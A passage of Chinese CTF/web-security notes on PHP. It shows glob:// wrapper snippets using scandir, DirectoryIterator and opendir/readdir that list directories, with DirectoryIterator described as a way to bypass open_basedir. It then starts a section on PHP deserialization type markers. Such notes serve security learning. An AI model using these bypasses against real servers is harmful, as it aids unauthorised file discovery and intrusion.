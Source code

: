 glob://协议是php5.3.0以后一种查找匹配的文件路径模式，而单纯传参glob://是没办法列目录的，需要结合其他函数方法

##### scandir()+glob://

只能列出根目录以及open_basedir()允许目录下的文件

```php
<?php
var_dump(scandir('glob:///*'));
>
```



##### DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)

```php
payloadL:
<?php
$a = new DirectoryIterator("glob:///*.txt");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
#	glob:///*	会列出根目录下的文件
# 	glob://*	会列出open_basedir允许目录下的文件
```

##### opendir()+readdir()+glob://

同样只能列出根目录已经open_basedir()允许的目录

```php
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```



### 反序列化

可以看y4师傅的这篇 [[CTF\]PHP反序列化总结_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/113588692?utm_source=app&app_version=4.11.0&code=app_1562916241&uLinkId=usr1mkqgl919blen)

#### 序列化数据的标识

> a - array 数组
> b - boolean 布尔型
> d - double 浮点型
> i - integer 整数型
> o - common object 共同对象
> r - reference 对象引用
> s - string 纯字符串
> S - string 此时字符串支持后面的字符用16进制表示
> C - custom object 自定义对象
> O - class 类
> N - null 空
> R - pointer reference 指针引用
> U - unicode string Unicode编码的字符串（php4、5不支持）
>
> 在php中，引用意为不同的名字访问同一个变量内容
>
